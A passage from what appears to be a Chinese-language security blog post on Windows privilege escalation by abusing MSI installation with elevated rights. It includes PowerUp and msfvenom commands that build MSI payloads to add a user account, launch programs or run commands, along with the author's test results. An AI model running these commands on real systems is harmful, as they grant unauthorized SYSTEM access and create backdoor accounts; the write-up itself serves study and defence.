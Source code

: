 当前目录生成UserAdd.msi

(3)命令行执行(当前用户权限)

```
msiexec /q /i UserAdd.msi
```

弹出添加用户的对话框，能够用来添加用户，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-2/2-2.png)

此时查看该对话框的权限为System，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-2/2-3.png)

提权成功

### 2.Metasploit

生成弹出计算器的msi文件，命令如下：

```
msfvenom -p windows/exec CMD=calc.exe -f msi >calc.msi
```

命令行执行msi文件(当前用户权限)：

```
msiexec /q /i calc.msi
```

弹出的计算器权限为Medium，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-2/2-4.png)

这与PowerUp的结果不同

换成其他Payload的msi文件，例如添加用户：

```
msfvenom -p windows/adduser USER=test PASS=12356QW!@ -f msi >adduser.msi
```

例如执行cmd命令：

```
msfvenom -p windows/x64/exec CMD='whoami >1.txt' -f msi > cmd.msi
```

由于权限不够(为Medium)，均失败

这与其他公开文章介绍的情况不一样

个人猜测：

使用Metasploit生成的msi文件在运行时没有要求提升权限，所以导致了这个问题

## 0x04 解决方法
---
